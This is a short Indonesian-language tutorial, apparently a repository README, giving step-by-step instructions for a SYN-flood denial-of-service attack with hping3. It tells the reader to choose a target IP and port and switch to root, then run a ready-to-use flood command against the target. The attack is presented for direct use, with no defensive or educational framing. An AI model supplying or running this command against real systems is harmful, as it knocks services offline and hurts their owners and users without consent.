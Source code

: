 ## Langkah-langkah melakukan DoS (Denial of Service) menggunakan hping3 (linux)
* Tentukan ip target dan port yang akan dilakukan DoS
* Buka terminal dan masuk ke mode root
* Selanjutnya masukan perintah berikut untuk menjalankan SYN Flooding Attack, Cth:
```bash
hping3 -S --flood {ip_address}
```